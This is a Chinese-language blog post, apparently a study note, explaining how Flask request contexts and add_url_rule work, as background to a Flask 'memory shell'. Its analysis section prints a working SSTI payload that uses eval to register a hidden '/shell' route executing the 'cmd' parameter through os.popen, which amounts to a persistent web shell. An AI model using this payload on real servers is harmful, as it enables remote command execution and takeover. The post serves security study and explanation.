



# 前言

之前一直想学习的东西但是一直咕，终于选了个晚上在配置vscode调试PHP底层C代码的过程中卡住的时候去学了这个flask的内存马，也是很有意思。


# 前置知识

## 请求上下文

简单的flask的ssti肯定需要知道，这个就不提了。

首先就是跟着参考链接中的Flask上下文管理机制流程进行了一波学习，打断点跟进一波。


flask在接受到请求的时候会调用app的`__call__`方法：

```python
    def __call__(self, environ, start_response):
        """The WSGI server calls the Flask application object as the
        WSGI application. This calls :meth:`wsgi_app` which can be
        wrapped to applying middleware."""
        return self.wsgi_app(environ, start_response)
```

继续跟进：

```python
        ctx = self.request_context(environ)
        error = None
        try:
            try:
                ctx.push()
                response = self.full_dispatch_request()
```

这时候的self是`Flask`对线，调用`request_context()`方法得到了一个`RequestContext`，一个请求上下文`ctx`（这时候我联想一波Servlet其实也有些了解了）。它里面包含了request和session：



之后会调用`ctf.push()`：

```python
        top = _request_ctx_stack.top
        if top is not None and top.preserved:
            top.pop(top._preserved_exc)

        # Before we push the request context we have to ensure that there
        # is an application context.
        app_ctx = _app_ctx_stack.top
        if app_ctx is None or app_ctx.app != self.app:
            app_ctx = self.app.app_context()
            app_ctx.push()
            self._implicit_app_ctx_stack.append(app_ctx)
        else:
            self._implicit_app_ctx_stack.append(None)

        if hasattr(sys, "exc_clear"):
            sys.exc_clear()

        _request_ctx_stack.push(self)
```

考虑到`_request_ctx_stack = LocalStack()`是一个`LocalStack`对象，获取它的top就是这个：

```python
    @property
    def top(self):
        """The topmost item on the stack.  If the stack is empty,
        `None` is returned.
        """
        try:
            return self._local.stack[-1]
        except (AttributeError, IndexError):
            return None
```

它的`_local`是一个`Local`对象，具有这两个属性：

```python
    def __init__(self):
        object.__setattr__(self, "__storage__", {})
        object.__setattr__(self, "__ident_func__", get_ident)
```

且访问不存在的属性的时候就是这样：

```python
    def __getattr__(self, name):
        try:
            return self.__storage__[self.__ident_func__()][name]
        except KeyError:
            raise AttributeError(name)
```

但是我也没有去了解的这么细，因为没必要。很明显的就是这时候的stack为None，所以栈顶没有元素，所以`top`也返回None，最后执行了这个`_request_ctx_stack.push(self)`：

```python
    def push(self, obj):
        """Pushes a new item to the stack"""
        rv = getattr(self._local, "stack", None)
        if rv is None:
            self._local.stack = rv = []
        rv.append(obj)
        return rv
```

同理，一开始rv还是None，然后这行代码`self._local.stack = rv = []`，相当于把rv和`self._local.stack`都指向同一个列表：

```python
a = b = []
a.append(123)
print(a)#[123]
print(b)#[123]
```

然后`rv.append(obj)`，这个obj就是`RequestContext`。相当于把`self._local.stack`栈顶压入这么个请求上下文对象。


因此，获取当前的请求上下文，也就是获取`_request_ctx_stack.top`，`_request_ctx_stack`的栈顶元素，而有了请求上下文就可以得到`request`了。


## add_url_rule

每次注册路由的时候都会调用`Route`函数：

```python
@app.route('/',methods=['GET', 'POST'])
def test():
    feng=request.args.get('feng')
    template = '''
            <h3>%s</h3>
    ''' %(feng)

    return render_template_string(template)
```

跟进一下：

```python
        def decorator(f):
            endpoint = options.pop("endpoint", None)
            self.add_url_rule(rule, endpoint, f, **options)
            return f
```

其实还是调用了`add_url_rule()`函数：

```python
    @setupmethod
    def add_url_rule(
        self,
        rule,
        endpoint=None,
        view_func=None,
        provide_automatic_options=None,
        **options
    ):
```

有这么几个参数需要注意，第一个rule就是注册的路由，比如`"/test"`。第二个`endpoint`注释中是这样说的：

> the endpoint for the registered URL rule.  Flask
>                  itself assumes the name of the view function as
>                  endpoint

说白了，endpoint就是绑定的函数名。

第三个就是`view_func`，就是对应这个路由的函数，每次请求这个路由都交由这个函数来处理。

至于请求方式，默认是GET，可以不写，因此，想要动态添加路由，最重要的就是第一个和第三个参数了。

路由可以随便写，至于函数这里，可以拿lambda表达式来写。


# POC分析

知道了上面的知识，再来看flask内存马就很容易了：

```python
url_for.__globals__['__builtins__']['eval'](
	"app.add_url_rule(
		'/shell', 
		'shell', 
		lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd')).read()
		)
	",
	{
		'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
		'app':url_for.__globals__['current_app']
	}
)
```

`eval`有两个参数

第二个就是变量的全局命名空间，这样让`app`和`_request_ctx_stack`都可以被找到。

至于里面执行的命令，就是动态创建一条路由，路由是`/shell`，函数名也是`shell`，函数就是`__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd')).read()`

调用os，执行命令。至于命令的来源，则是通过`_request_ctx_stack.top`得到请求上下文，然后获得请求上下文的`request`，再得到请求的get参数中的`cmd`然后执行，很容易理解。学费了学费了！



# 参考链接

https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/#0x01-Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC

https://github.com/iceyhexman/flask_memory_shell

https://www.cnblogs.com/bigox/p/11652859.html

https://blog.csdn.net/solitudi/article/details/115331388

https://www.runoob.com/python/python-functions.html